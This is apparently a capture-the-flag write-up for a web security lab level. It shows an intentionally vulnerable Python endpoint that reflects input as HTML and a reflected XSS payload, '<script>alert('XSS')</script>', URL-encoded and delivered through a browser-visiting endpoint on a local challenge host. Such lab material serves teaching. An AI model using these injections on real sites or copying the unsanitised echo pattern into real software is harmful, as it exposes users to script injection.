 # Cross-Site Scripting (XSS) Vulnerabilities

## Level 8 - Exploit a cross site scripting vulnerability

Code for the level:

```python
def level8():
    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(echo)

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

        with run_browser() as browser:
            browser.get(url)
            try:
                WebDriverWait(browser, 1).until(EC.alert_is_present())
            except TimeoutException:
                return "Failed to alert\n"
            else:
                return f"{flag}\n"

    return "Not Found\n", 404
```



For this, the `/visit` path will run a browser in Selenium and redirect to the `url` parameter. If it gets an alert, it will display the flag.

To display an alert, we can use the `/echo` endpoint. I want it to display an alert, so I want to inject the `echo` arg as `<script>alert('XSS')</script>`. URL encoded, that is, `%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E`.

This gives a URL of `http://challenge.localhost/echo?echo=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E`. Pasting this into the browser alerts, so we are on the right track.

I use this to build the `/visit` url and paste `http://challenge.localhost/visit?url=%20http%3A%2F%2Fchallenge.localhost%2Fecho%3Fecho%3D%253Cscript%253Ealert%2528%2527XSS%2527%2529%253C%252Fscript%253E` into the brower URL.

This worked, but I'd over-escaped the url. It can be simplified as `http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo=%3Cscript%3Ealert(%27XSS%27)%3C%2Fscript%3E` which is more readable.

While I used the browser because it was easier to test the alert, it also works with curl,

```sh
curl "http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo=%3Cscript%3Ealert(%27XSS%27)%3C%2Fscript%3E"
```
